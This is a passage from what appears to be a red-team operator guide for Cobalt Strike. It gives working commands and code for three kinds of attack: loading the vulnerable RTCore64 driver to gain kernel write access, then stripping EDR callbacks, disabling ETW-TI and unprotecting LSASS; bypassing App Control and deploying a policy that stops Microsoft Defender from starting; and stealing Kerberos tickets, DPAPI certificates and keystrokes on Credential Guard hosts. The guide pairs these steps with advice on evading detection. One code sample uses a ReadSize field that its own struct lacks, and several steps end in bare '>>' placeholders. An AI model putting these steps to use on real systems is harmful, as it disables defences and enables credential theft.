    $spec  = [LinkSpec Parse: $spec_path];
    $final = [$spec run: $beacon, [new HashMap]];

    return $final;
}
```

#### Methodology

- [ ] Duplicate the body of the `BEACON_RDLL_GENERATE` hook into `BEACON_RDLL_GENERATE_LOCAL` within the same Aggressor script.
- [ ] Do not use the parent-supplied `$5` and `$6` pointers when Crystal Palace hooks are in effect. Resolve `GetModuleHandleA` and `GetProcAddress` from within the child loader instead.
- [ ] Verify that a Beacon launched via `spawn` has evasion tradecraft applied. Confirm hooked APIs in Process Hacker or SystemInformer once the child's PICO has loaded: >>

## 7. Vulnerable Drivers

### 7.1 Introduction

Disabling kernel callbacks (§2.4) and ETW-TI (§2.5) requires the ability to write to kernel memory. Because Driver Signature Enforcement prevents unsigned drivers from being loaded, the practical mechanism for obtaining this capability is **Bring Your Own Vulnerable Driver (BYOVD)**: loading a legitimately signed driver whose exposed IOCTLs (Input/Output Control codes) allow user mode to read from and write to arbitrary kernel addresses.

#### 7.1.1 Driver Selection

| Consideration | Detail |
|---|---|
| Signed by Microsoft's Hardware Developer Program | Required for the driver to load. Unsigned drivers are rejected by Driver Signature Enforcement. |
| Exposes read and write IOCTLs | Two IOCTLs providing arbitrary kernel-address read and write are sufficient to implement any of the techniques that follow. |
| Presence on the Microsoft Vulnerable Driver Block List | Windows refuses to load the driver when HVCI (Hypervisor-Protected Code Integrity) or MDE (Microsoft Defender for Endpoint) has the block list active. Drivers that have not yet been added to the block list, or targets on which HVCI is not enforced, should be preferred. |
| Not currently installed on the target | The driver must be delivered and loaded by the operator. Driver installation requires local administrator privileges. |

#### 7.1.2 RTCore64

`RTCore64.sys` is a driver distributed as part of MSI Afterburner, a GPU overclocking utility. It exposes two IOCTLs providing arbitrary kernel read and write, both driven by a shared `RTCORE64_MEMORY` structure.

```c
struct RTCORE64_MEMORY {
    BYTE    Pad0[8];
    DWORD64 Address;
    BYTE    Pad1[8];
    DWORD   WriteSize;
    DWORD   Value;
    BYTE    Pad3[16];
};

/* Read */
RTCORE64_MEMORY r = {0};
r.Address  = target_kernel_address;
r.ReadSize = sizeof(DWORD);
DWORD bytesReturned = 0;
DeviceIoControl(hDriver, RTCORE64_MEMORY_READ_IOCTL,
                &r, sizeof(r), &r, sizeof(r), &bytesReturned, NULL);
/* r.Value now holds the read data */

/* Write */
RTCORE64_MEMORY w = {0};
w.Address   = target_kernel_address;
w.WriteSize = sizeof(DWORD);
w.Value     = new_value;
DeviceIoControl(hDriver, RTCORE64_MEMORY_WRITE_IOCTL,
                &w, sizeof(w), &w, sizeof(w), &bytesReturned, NULL);
```

#### 7.1.3 Loading the Driver

```
beacon> cd C:\Windows\System32\drivers
beacon> upload C:\Tools\driver-bofs\drivers\RTCore64.sys

beacon> run sc create RTCore64 type= kernel binPath= C:\Windows\System32\drivers\RTCore64.sys start= demand
[SC] CreateService SUCCESS

beacon> run sc start RTCore64
SERVICE_NAME: RTCore64
    TYPE  : 1 KERNEL_DRIVER
    STATE : 4 RUNNING
```

#### 7.1.4 BOF-Wrapped Commands

Wrapping the IOCTL grunt-work as BOFs keeps the tradecraft callable from a Beacon interface. Example *Kernel Tradecraft* command group:

```
beacon> help

Kernel Tradecraft
=================
Kernel tradecraft via RTCore64.sys. Expects the driver to already be loaded.

    disable_etwti      Disable ETW-TI
    list_callbacks     List kernel callbacks
    remove_callback    Remove a kernel callback
    etw_enum           Enumerate an ETW provider
    etw_disable        Disable an ETW provider
    ppenum             Enumerate process protection level
    pppatch            Patch process protection level
```

#### Methodology

- [ ] Confirm that the operator has local administrator privileges on the target and that the chosen driver is not blocked by HVCI or the Microsoft Vulnerable Driver Block List.
- [ ] Upload the driver to `%SystemRoot%\System32\drivers` and register it as a kernel-mode service: >>
- [ ] Validate the read primitive against a benign target, such as reading a single byte from the operator's own `EPROCESS` structure, before performing further modifications.
- [ ] Uninstall the driver as soon as the required operations have completed to minimise the forensic window: >>

#### OPSEC

- Loading a kernel driver generates a `PsSetLoadImageNotifyRoutine` event, Sysmon Event ID 6 (Driver loaded), and vendor-specific alerts against known BYOVD drivers such as those maintained by Microsoft Defender for Endpoint.
- Disabling the operator's own kernel callbacks (§2.4) prior to loading the driver is only useful when the ordering can be guaranteed. Otherwise the driver load event is captured by the callbacks before they are disabled.
- Executing the loader from within a Microsoft-signed process reduces the detection surface for some EDR products. Running the BOF inside a `spawnto` other than Beacon is preferable.

### 7.2 Disabling Kernel Telemetry

With kernel read and write primitives available through RTCore64, all kernel-resident detection mechanisms used by EDR products can be disabled.

#### 7.2.1 Enumerating and Removing Callbacks

```
beacon> list_callbacks
[*] Tasked Beacon to list kernel callbacks

Process Callbacks
-----------------
    [0]  0xFFFFF8025F7F22D0 (cng.sys)
    [1]  0xFFFFF802611A0030 (WdFilter.sys)         <-- Defender
    [2]  0xFFFFF8025FAD6E10 (ksecdd.sys)
    ...

Thread Callbacks
----------------
    [0]  0xFFFFF80261170950 (WdFilter.sys)         <-- Defender
    [1]  0xFFFFF80261180A10 (WdFilter.sys)         <-- Defender
    ...

beacon> remove_callback process 1
[*] Tasked Beacon to remove process callback 1
[+] Callback removed
```

The BOF walks the callback table using the layout described in §2.4.2, matches each entry's module to a known EDR driver, and overwrites the entry with zero. To locate `PspCreateProcessNotifyRoutine` without a hardcoded offset, the BOF loads `ntoskrnl.exe`, obtains the address of `CmUnRegisterCallback` via `GetProcAddress`, and disassembles its body to locate the `lea rcx, [nt!CallbackListHead]` instruction from which the table address is derived.

#### 7.2.2 Disabling ETW-TI

```
beacon> etw_enum {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
[*] Tasked Beacon to enum ETW-TI provider

    ProviderEnableInfo.IsEnabled == 1

beacon> etw_disable {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
[*] Tasked Beacon to disable ETW-TI provider

beacon> etw_enum {F4E1897C-BB5D-5668-F1D8-040F4D8DD344}
    ProviderEnableInfo.IsEnabled == 0
```

#### 7.2.3 Patching Process Protection

Protected Process Light (PPL) enforces a signer hierarchy in which handles to a protected process can only be obtained by processes of equal or higher signer rank. Windows 11 and later enable PPL on `lsass.exe` by default. Handle requests via `OpenProcess` from an unprivileged or administrator context return an access-denied result, and standard Mimikatz-based credential extraction fails.

The protection level is stored in the `Protection` field of the target's `EPROCESS` structure and can be modified using the kernel write primitive:

```c
struct _PS_PROTECTION {
    union {
        UCHAR Level;
        struct {
            UCHAR Type   : 3;
            UCHAR Audit  : 1;
            UCHAR Signer : 4;
        };
    };
};
```

```
beacon> ppenum 1008
[*] Tasked Beacon to enum protection level
    Level  : 0x41
    Audit  : 0
    Type   : PsProtectedTypeProtectedLight
    Signer : PsProtectedSignerLsa

beacon> pppatch 1008 0
[*] Tasked Beacon to patch protection level

beacon> ppenum 1008
    Level  : 0x0
    Type   : PsProtectedTypeNone
    Signer : PsProtectedSignerNone
```

With the `Signer` field set to `PsProtectedSignerNone`, handle requests to LSASS succeed normally.

#### Methodology

- [ ] Enumerate the registered callbacks and identify those belonging to EDR drivers by resolving each callback address to its owning module: >>
- [ ] Zero the entries belonging to EDR drivers. Restore them before concluding the engagement; leaving the callbacks disabled is itself an indicator of tampering: >>
- [ ] Confirm that ETW-TI is enabled, perform the required operation with the provider disabled, and re-enable it afterwards: >>
- [ ] On Windows 11 and later, downgrade the LSASS process protection level before attempting to extract credentials, and restore it afterwards: >>

#### OPSEC

- Zeroed callbacks are visible to anyone re-enumerating (including some EDRs' self-check timers). Restore whenever possible.
- ETW-TI going silent is a signal in itself. Turn it off only for the specific loud action, then back on.
- PPL patching is a kernel-visible mutation of `EPROCESS`. Some MDE variants watch for `Protection` field flips. Consider dumping LSASS via alternative means (silent process exit, MiniDumpWriteDump via WerFault) instead.

## 8. App Control for Business

### 8.1 Introduction

App Control for Business (formerly Windows Defender Application Control) is a kernel-enforced application allowlisting mechanism built into Windows. Unlike AppLocker, which is enforced by the user-mode `AppIDSvc` service and is classified by Microsoft as a defence-in-depth feature, App Control is designated an official Microsoft security boundary. Vulnerabilities that bypass it are serviced through the Microsoft Security Response process.

#### 8.1.1 Rule Match Criteria

| Basis | Example |
|---|---|
| **Path** | `%WINDIR%\regedit.exe`, `%OSDRIVE%\Program Files\7-Zip\*` |
| **File attributes** | `OriginalFilename`, `ProductName`, `Version`, `FileHash` |
| **ISG reputation** | Microsoft Intelligent Security Graph cloud reputation lookup. |
| **Code-signing certificate** | Publisher identified by the certificate issuer TBS (To-Be-Signed) hash, with an optional `CertPublisher` restriction on the certificate common name. |

#### 8.1.2 Policy Files

Raw policies are authored in XML using the `New-CIPolicy` cmdlet or the App Control for Business Wizard. The XML is compiled into a binary Code Integrity Policy (`.cip`) file for deployment and copied to `C:\Windows\System32\CodeIntegrity\CIPolicies\Active`. Since Windows 10 1903 and Windows Server 2022, multiple policies coexist on a system — one base policy and any number of supplemental policies, all of which are evaluated together.

#### 8.1.3 Reversing CIP Files

App Control forces PowerShell into Constrained Language Mode (CLM), so policy analysis is typically performed offline. Matt Graeber's **WDACTools** module converts binary CIP files back to XML for inspection.

```powershell
PS> ipmo C:\Tools\WDACTools\WDACTools.psd1
PS> ConvertTo-WDACCodeIntegrityPolicy `
        -BinaryFilePath '.\{e01193e3-74ca-4f99-83d7-1a9522374b3f}.CIP' `
        -XmlFilePath    '.\{e01193e3-74ca-4f99-83d7-1a9522374b3f}.xml'
```

The first policy line identifies whether the file is a base or supplemental policy. When `PolicyID` matches `BasePolicyID`, the file is a base policy. When the two values differ, the file is a supplemental policy chained to the specified base:

```xml
<PolicyID>{E01193E3-74CA-4F99-83D7-1A9522374B3F}</PolicyID>
<BasePolicyID>{E01193E3-74CA-4F99-83D7-1A9522374B3F}</BasePolicyID>
```

#### 8.1.4 Key Rule Options

| Option | Effect |
|---|---|
| **Audit Mode** | Logs the actions that would have been blocked without preventing them from occurring. |
| **UMCI (User-Mode Code Integrity)** | Extends the policy to user-mode binaries. When disabled, only kernel-mode drivers are subject to the policy. |
| **Unsigned System Integrity Policy** | Enabled by default; permits unsigned policy files. When disabled, policies must be signed by a trusted certificate authority. |
| **Update Policy No Reboot** | Allows in-place policy updates to be applied without a system reboot. |
| **Runtime FilePath Rule Protection** | Enabled by default; requires that path-based allow rules reference directories writable only by administrators. When disabled, path rules also apply to directories writable by standard users. |
| **Dynamic Code Security** | Disabled by default; permits .NET dynamic code compilation. When enabled, LOLBAS tools such as MSBuild and Microsoft.Workflow.Compiler are blocked from compiling arbitrary code. |

#### Methodology

- [ ] Retrieve the deployed CIP files for offline analysis: >>
- [ ] Convert each CIP file back to XML using WDACTools: >>
- [ ] Record the `PolicyID` and `BasePolicyID` for each file. Matching values indicate a base policy; differing values indicate a supplemental policy.
- [ ] Inspect the rule options block for weakening configurations: audit mode enabled, UMCI not set, Runtime FilePath Rule Protection disabled, or Dynamic Code Security disabled: >>

### 8.2 Policy Misconfigurations

Direct bypasses in App Control are addressed by Microsoft through the security response process. The reliable attack surface consists of configuration weaknesses: policies deployed in audit mode, weak file-attribute rules, wildcard path rules referencing user-writable directories, LOLBAS execution paths, and permissive certificate authority trust.

#### 8.2.1 Audit-Only Policies

Microsoft recommends deploying policies in audit mode first to assess business impact before enforcement is enabled. Two conditions cause audit mode to persist longer than intended:

- Some organisations never transition their policies to enforcement mode after the assessment period ends.
- Policies authored using the official Microsoft tools default to audit mode, and the switch to enforcement is easily overlooked at deployment.

Every deployed policy should be inspected for the following:

```xml
<Rules>
    <Rule>
        <Option>Enabled:Audit Mode</Option>
    </Rule>
</Rules>
```

#### 8.2.2 File Attribute Rules

Attribute rules match against fields such as `OriginalFileName`, `ProductName`, and version metadata. Because these fields are compiled into the binary at build time, any operator-authored binary can be produced with matching values.

```xml
<FileRules>
    <Allow ID="ID_ALLOW_A_1"
           FriendlyName="Allow 7Zip installer"
           FileName="7zipInstall.exe"
           ProductName="7-Zip" />
</FileRules>
```

The Artifact Kit's `resource.rc` file can be modified so that generated payloads report the file attributes required by the allowlist rule:

```
#define VER_FILEVERSION 25,0,0,1
#define VER_FILEVERSION_STR "25,0,0,1\0"

BEGIN
    BLOCK "StringFileInfo"
    BEGIN
        BLOCK "040904B0"
        BEGIN
            VALUE "CompanyName",      "Igor Pavlov"
            VALUE "FileDescription",  "7-Zip Installer"
            VALUE "InternalName",     "7-Zip"
            VALUE "OriginalFilename", "7zipInstall.exe"
            VALUE "ProductName",      "7-Zip"
            VALUE "ProductVersion",   "25.01"
        END
    END
END
```

```
# Build the kit and load the Aggressor script into Cobalt Strike
$ cd /opt/arsenal-kit/kits/artifact
$ ./build.sh
# In the Cobalt Strike client:
cobaltstrike> load /opt/arsenal-kit/kits/artifact/dist-pipe/artifact.cna
```

#### 8.2.3 Path Wildcards

Path-based rules such as `%OSDRIVE%\App-V\*` require the referenced directory to be writable only by principals on Microsoft's *trusted writer list*, which includes CreatorOwner, LocalSystem, Administrators, and several service SIDs. When any other SID has write permission, execution from the directory is denied at runtime. This runtime check is disabled when the Runtime FilePath Rule Protection option is off, in which case standard users can execute code from any writable allowlisted directory.

```powershell
# Enumerate directories in the allowlisted path that are writable by non-trusted principals
PS> Get-ChildItem -Path 'C:\App-V\' -Recurse -Directory |
    ForEach-Object { icacls $_.FullName } |
    Select-String -NotMatch 'BUILTIN\\Administrators|NT AUTHORITY\\SYSTEM|CREATOR OWNER'
```

#### 8.2.4 LOLBAS

Signed Windows binaries that support execution of arbitrary code can be used to bypass App Control policies. The [UltimateWDACBypassList](https://github.com/bohops/UltimateWDACBypassList) project catalogues known techniques. `Microsoft.Workflow.Compiler` is one such binary; it compiles arbitrary C# code supplied through a XOML file:

```xml
<!-- test.xml -->
<?xml version="1.0" encoding="utf-8"?>
<CompilerInput xmlns:i="http://www.w3.org/2001/XMLSchema-instance"
               xmlns="http://schemas.datacontract.org/2004/07/Microsoft.Workflow.Compiler">
    <files xmlns:d2p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays">
        <d2p1:string>pwn.xoml</d2p1:string>
    </files>
    <parameters xmlns:d2p1="http://schemas.datacontract.org/2004/07/System.Workflow.ComponentModel.Compiler">
        <assemblyNames xmlns:d3p1="http://schemas.microsoft.com/2003/10/Serialization/Arrays"
                       xmlns="http://schemas.datacontract.org/2004/07/System.CodeDom.Compiler" />
    </parameters>
</CompilerInput>
```

```xml
<!-- pwn.xoml -->
<SequentialWorkflowActivity x:Class="Workflow" x:Name="Workflow"
    xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
    xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow">
    <CodeActivity x:Name="CodeActivity" />
    <x:Code>
        <![CDATA[
            public class Test : SequentialWorkflowActivity {
                public Test() { Console.WriteLine("Hello World"); }
            }
        ]]>
    </x:Code>
</SequentialWorkflowActivity>
```

```
C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe test.xml output.xml
Hello World
```

This bypass is prevented when the Dynamic Code Security option is enabled in the policy.

#### 8.2.5 Electron App Hijacking

Electron applications such as Teams, Visual Studio Code, GitHub Desktop, and Slack execute JavaScript at runtime through Node.js. When ASAR integrity checks are not enabled, the accompanying JavaScript files can be modified. This allows code execution through a signed trusted application. Bobby Cooke's [Loki](https://github.com/boku7/Loki) framework implements a command-and-control platform built on this technique.

#### 8.2.6 Trusted CA (Certificate Authority) Abuse

Rules that trust an entire certificate authority are identifiable by the combination of `CertRoot` and `CertPublisher` elements:

```xml
<Signer Name="Signer 1" ID="ID_SIGNER_S_0001">
    <CertRoot Type="TBS" Value="D3D6E1BFF66C74E2244B707C93F1BED794E1BC420F4F7E6C1EC92290B99A658C" />
    <CertPublisher Value="CONTOSO Signing Certificate" />
</Signer>
```

Any code-signing certificate issued by the referenced CA whose common name matches the `CertPublisher` value is trusted by the policy. When enrollment rights are available on the code-signing template, an operator can obtain a valid certificate, use it to sign a payload, and execute the payload against the policy:

```
> certutil -template
Template[7]:
  TemplatePropCommonName        = ContosoCodeSigning
  TemplatePropFriendlyName      = Contoso Code Signing
  TemplatePropSecurityDescriptor = ... Allow Enroll DomainUsers
```

```
> "C:\Program Files (x86)\Windows Kits\10\bin\10.0.26100.0\x64\signtool.exe" ^
    sign /f .\Desktop\signing-cert.pfx /p "pass123" /fd SHA256 C:\Payloads\http_x64.exe
Done Adding Additional Store
Successfully signed: C:\Payloads\http_x64.exe
```

When `CertPublisher` is absent, only the specific certificate identified by the TBS hash is trusted. This form is not exploitable through new certificate enrollment.

#### Methodology

- [ ] Search each reversed CIP for audit mode; policies deployed in audit mode do not enforce any rules: >>
- [ ] When attribute rules are present, rebuild the Artifact Kit with matching properties and load the Aggressor script: >>
- [ ] When wildcard path rules are present, enumerate the allowed directory tree for subdirectories writable by non-trusted principals: >>
- [ ] Attempt LOLBAS execution when Dynamic Code Security is disabled in the policy: >>
- [ ] Enumerate ADCS templates to identify enrollment rights on any code-signing template referenced by the policy: >>
- [ ] Configure Cobalt Strike to sign generated payloads with the issued certificate: >>

### 8.3 Weaponising App Control

An attacker with local administrator privileges on a protected endpoint can deploy their own App Control policies. Two operational uses are available: allowlisting operator tools through a supplemental policy, or preventing an EDR agent from executing through a targeted-deny base policy.

#### 8.3.1 Supplemental Allowlist

Supplemental policies can only extend the trust granted by the base policy; they support allow rules but not deny rules. A supplemental policy is chained to the deployed base policy by its GUID.

```xml
<PolicyID>{C3C533E1-8D36-41E5-BD04-7E096BCE1C8D}</PolicyID>
<BasePolicyID>{E01193E3-74CA-4F99-83D7-1A9522374B3F}</BasePolicyID>   <!-- deployed base -->
...
<FileRules>
    <Allow ID="ID_ALLOW_PATH_0"
           FriendlyName="Attacker tools"
           FilePath="%OSDRIVE%\ProgramData\svc\*" />
</FileRules>
```

The policy is compiled using the App Control for Business Wizard, uploaded to the target, and activated via `CiTool`:

```
beacon> upload .\mypolicy.cip
beacon> cp mypolicy.cip C:\Windows\System32\CodeIntegrity\CIPolicies\Active\
beacon> run CiTool.exe -up C:\Windows\System32\CodeIntegrity\CIPolicies\Active\mypolicy.cip
```

When the base policy has the Update Policy No Reboot option enabled, the supplemental policy takes effect immediately. Otherwise, a system reboot is required.

#### 8.3.2 Targeted-Deny Base Policy

Supplemental policies cannot express deny rules. To block a specific application, a second base policy is deployed alongside the existing base policy. This second policy allows all execution except for the intended target. Authoring it from the Microsoft-supplied `AllowAll.xml` template ensures that the resulting policy does not deny the operating system's own required binaries:

```
# Base template location
C:\Windows\schemas\CodeIntegrity\ExamplePolicies\AllowAll.xml
```

The template is opened in the App Control Wizard's Policy Editor. A deny rule is added under File Rules for the EDR binary that is to be blocked:

```xml
<FileRules>
    <Deny ID="ID_DENY_D_0001" FilePath="C:\Program Files\Windows Defender\MsMpEng.exe" />
    <Allow ID="ID_ALLOW_A_0"   FilePath="*" />
</FileRules>
```

The policy is saved as a new CIP file, deployed using `CiTool`, and applied after a reboot. Under multi-policy evaluation semantics, an application must be allowed by every deployed base policy. Because the new base policy denies `MsMpEng.exe`, Microsoft Defender fails to start after the reboot.

#### Methodology

- [ ] Retrieve the deployed base policy's `PolicyID`; this value is required for the supplemental policy's `BasePolicyID` element.
- [ ] Author the supplemental policy in the Wizard. Rules should be narrowly scoped; broad rules such as `C:\*` are readily identified as suspicious. A dedicated operator-controlled directory is a preferable target: >>
- [ ] Deploy the compiled CIP from Beacon using `CiTool`: >>
- [ ] When authoring a deny-mode base policy, begin from the `AllowAll.xml` template. Constructing a base policy from an empty template denies the operating system's own required binaries and renders the host unbootable: >>
- [ ] Compile and deploy the policy, then trigger a reboot so that the currently running EDR process is not restarted: >>

#### OPSEC

- Write events to the `CodeIntegrity\CIPolicies\Active` directory are monitored by mature EDR products. The action of dropping the CIP may be alerted before the policy takes effect.
- Blocking `MsMpEng.exe` or another EDR process generates an immediate SOC investigation. A sensor that stops reporting on a monitored host is a high-severity signal in most environments. This technique should be reserved for terminal-phase operations rather than routine tradecraft.
- When the base policy has the Unsigned System Integrity Policy option disabled, the deployed CIP will not load without a signature from a trusted certificate authority. This option should be verified before authoring a policy.

## 9. Credential Guard

### 9.1 Introduction

Credential Guard uses **Virtualization-Based Security (VBS)**, backed by the Windows hypervisor and hardware virtualisation, to isolate authentication secrets in a separate virtual container. NTLM hashes, Kerberos Ticket Granting Tickets, and other long-term secrets are stored in `LSAIso.exe` (the LSA Isolated process) rather than in `lsass.exe`. LSAIso is designated by Microsoft as an official security boundary; access to its contents from outside the enclave is treated as a security vulnerability.

#### 9.1.1 Architecture

| Process | Execution Context | Contents |
|---|---|---|
| `lsass.exe` | Normal operating system (VTL 0) | Encrypted TGTs and opaque handles to session keys. |
| `LSAIso.exe` | Isolated User Mode / VBS enclave (VTL 1) | Plaintext NTLM hashes, Kerberos long-term keys, and session-key encryption keys. |

LSA and LSAIso communicate over RPC. LSA can request encryption and decryption operations from LSAIso but never receives the plaintext keys used for those operations.

#### 9.1.2 Session Key Flow

1. The user authenticates. LSA issues an AS-REQ (Authentication Service Request) to the KDC (Key Distribution Center).
2. The AS-REP (Authentication Service Reply) returns a TGT (Ticket Granting Ticket) together with a logon session key encrypted with the user's long-term key. LSA forwards both to LSAIso.
3. LSAIso decrypts the logon session key using the long-term key it holds. It re-encrypts the session key with a key that only LSAIso possesses and returns the re-encrypted blob to LSA.
4. When a service ticket is required, LSA passes the TGS-REQ (Ticket Granting Service Request) authenticator to LSAIso for encryption. LSA does not have access to the plaintext session key at any point.
5. The TGS-REP (Ticket Granting Service Reply) returns the service ticket and service session key, encrypted with the logon session key. LSA passes the response to LSAIso for decryption.

#### 9.1.3 Techniques Blocked by Credential Guard

| Technique | Status |
|---|---|
| `mimikatz sekurlsa::logonpasswords` | NT and LM hashes are no longer present in LSASS memory. The command produces no useful output. |
| `mimikatz sekurlsa::ekeys` | Kerberos AES keys are not present in LSASS memory. The command produces no useful output. |
| `Rubeus dump` | TGTs can still be extracted, but the associated key reports a `KeyType` ending in `_credguard`. The session key is opaque and the ticket cannot be reused on another host. |
| Raw Kerberos on port 88 (Rubeus `asktgt`, `asktgs`, or S4U directly against the KDC) | Rubeus cannot obtain the session key from LSAIso and cannot construct a valid authenticator. |
| Unconstrained delegation | Not permitted by Credential Guard. |
| Constrained delegation and Resource-Based Constrained Delegation | Not viable. Both depend on the TGT and its inaccessible session key. |

Techniques that operate *through* LSA rather than by reading LSA memory directly are not blocked by Credential Guard.

#### 9.1.4 Distinction from LSA Protected Process

LSA Protected Process (RunAsPPL) is a PPL-based protection applied to `lsass.exe` itself and is covered in §7.2.3. It is a separate and complementary control. Credential Guard governs where authentication secrets reside; RunAsPPL governs which processes can open a handle to `lsass.exe`.

#### Methodology

- [ ] Confirm that Credential Guard is enabled on the target: >>
- [ ] Verify that `LSAIso.exe` is present in the process list: >>
- [ ] Run `sekurlsa::logonpasswords` to confirm that the hash fields are empty before pivoting to alternate tradecraft: >>

#### OPSEC

- Attempting to compromise LSAIso directly is not a productive use of operator time. Any working technique constitutes a zero-day vulnerability and Microsoft issues fixes rapidly.
- Unsuccessful LSASS dump attempts still generate the standard alerts. The presence of Credential Guard should be verified before attempting extraction techniques that would otherwise be noisy.

### 9.2 Alternate Tradecraft

Credential access techniques that do not depend on reading secrets from LSAIso remain viable on Credential Guard hosts. The following sources are unaffected by the protection:

| Source | Availability |
|---|---|
| Kerberos service tickets | Stored in LSA rather than LSAIso; fully extractable. |
| Keylogger output | Captured before secrets reach LSA. |
| Local SAM (Security Account Manager) accounts | Not covered by Credential Guard. |
| Domain cached credentials (MSCache v2) | Not covered by Credential Guard. |
| Third-party credential stores | Not covered by Credential Guard. |
| DPAPI-protected client authentication certificates | Not covered by Credential Guard; extractable with SharpDPAPI. |

#### 9.2.1 Extracting Service Tickets

Service tickets are not protected by Credential Guard. The first step is to enumerate cached tickets across sessions to identify any that belong to privileged accounts:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe triage
Action: Triage Kerberos Tickets (All Users)

[*] Current LUID : 0x77a21

--------------------------------------------------------------------------------
| LUID       | UserName                    | Service              | EndTime          |
--------------------------------------------------------------------------------
| 0x422abf   | Administrator @ CONTOSO.COM | krbtgt/CONTOSO.COM   | 05/09/2025 00:21 |
| 0x422abf   | Administrator @ CONTOSO.COM | cifs/lon-dc-1        | 05/09/2025 00:21 |
| 0x422abf   | Administrator @ CONTOSO.COM | LDAP/lon-dc-1.contoso.com/contoso.com | 05/09/2025 00:21 |
...
```

The specific service ticket required is then dumped:

```
beacon> execute-assembly Rubeus.exe dump /luid:0x422abf /service:cifs /nowrap
Action: Dump Kerberos Ticket Data
...
UserName             : Administrator
ServiceName          : cifs/lon-dc-1
KeyType              : aes256_cts_hmac_sha1
Base64(key)          : +Nza1gk8vi+NvAvwJS2mwBvyQ8IZPUg3fONGEhrXW6U=
Base64EncodedTicket  :
    doIGZ[...snip...]tMQ==
```

The ticket can then be imported into the current session and used to access remote resources:

```
beacon> execute-assembly Rubeus.exe ptt /ticket:doIGZ...tMQ==
[+] Ticket successfully imported!

beacon> ls \\lon-dc-1\c$
Size  Type Last Modified       Name
----  ---- -------------       ----
dir   ...  08/05/2025 14:27:26 $Recycle.Bin
dir   ...  07/05/2025 19:26:39 inetpub
...
```

#### 9.2.2 asktgs via LSA

When a target session contains a TGT but no useful service ticket, Rubeus's `asktgs` command can be used with the `/luid` parameter to submit the ticket request through the LSA. In this mode, LSA obtains the encrypted authenticator from LSAIso and issues the TGS-REQ itself. No raw Kerberos traffic is generated on port 88.

```
beacon> execute-assembly Rubeus.exe triage
| 0xe8e2b | Administrator @ CONTOSO.COM | krbtgt/CONTOSO.COM                        | ...
| 0xe8e2b | Administrator @ CONTOSO.COM | LDAP/lon-dc-1.contoso.com/contoso.com     | ...

beacon> execute-assembly Rubeus.exe asktgs /service:cifs/lon-dc-1 /luid:0xe8e2b /nowrap
[*] Action: Ask TGS
[=] Requesting service ticket via LSA authentication package 2 using handle 0x2775300295168
[+] base64(ticket.kirbi):
    doIGZ[...snip...]tMQ==
ServiceName          : cifs/lon-dc-1
```

#### 9.2.3 DPAPI-Protected Client Certificates

Client authentication certificates encrypted at rest with DPAPI are outside the scope of Credential Guard. SharpDPAPI extracts them under the current user context:

```
beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI.exe certificates /unprotect
[*] Action: Certificate Triage
[*] Using CryptUnprotectData() for decryption.

    Provider GUID       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
    algCrypt            : CALG_AES_256 (keyLen 256)
    algHash             : CALG_SHA_512
    Unique Name         : te-User-4019ad3e-4f64-46ea-acd2-c7fc1dc66f28
    Thumbprint          : 54C92B0DF6354C67AC9B71E5A02CC4604F048E52
    Issuer              : CN=root-ca, DC=contoso, DC=local
    ---
    <RSA private key material>
```

The extracted certificate can be converted to PFX format and used with Certipy or Rubeus for Kerberos PKINIT authentication.

#### 9.2.4 Other Viable Sources

| Source | Command |
|---|---|
| Local SAM accounts | `mimikatz lsadump::sam` (requires SYSTEM) |
| MSCache v2 cached domain credentials | `mimikatz lsadump::cache` |
| LSA secrets (service credentials, DPAPI machine key) | `mimikatz lsadump::secrets` |
| Browser credentials | `SharpChrome logins`, `SharpChrome cookies` |
| Windows Credential Manager | `SharpDPAPI credentials /unprotect` |
| Keystrokes at the source | Beacon's `keylogger` command captures input before it reaches LSA. |

#### Methodology

- [ ] Enumerate cached Kerberos tickets across every logon session on the host before performing further actions: >>
- [ ] Extract specific service tickets required for lateral movement. `krbtgt/` tickets remain opaque and cannot be reused off-host under Credential Guard; `cifs/`, `ldap/`, `host/`, and `mssql/` tickets are usable: >>
- [ ] Import the extracted ticket into the current session and access remote resources: >>
- [ ] When a session contains a TGT but not the required service ticket, request the service ticket through the LSA: >>
- [ ] Extract DPAPI-protected client authentication certificates for use with PKINIT: >>
- [ ] When other credential access paths have been exhausted, deploy a keylogger against high-value users to capture credentials at input time: >>

#### OPSEC

- Requests issued through `asktgs /luid` produce network traffic that is indistinguishable from ordinary Kerberos activity because the request originates from LSA. This should be the default technique whenever a suitable TGT is available in an accessible logon session.
- TGTs extracted on a Credential Guard host cannot be reused off-host; the associated session key is not accessible outside LSAIso. Exporting `krbtgt/` tickets from such hosts serves no operational purpose.
- SharpDPAPI is executed through `execute-assembly`, which invokes the post-exploitation loader. When the target has strong .NET load telemetry, the postex loader hooks described in §5.5 should be applied or the tool should be repackaged as a post-exploitation DLL.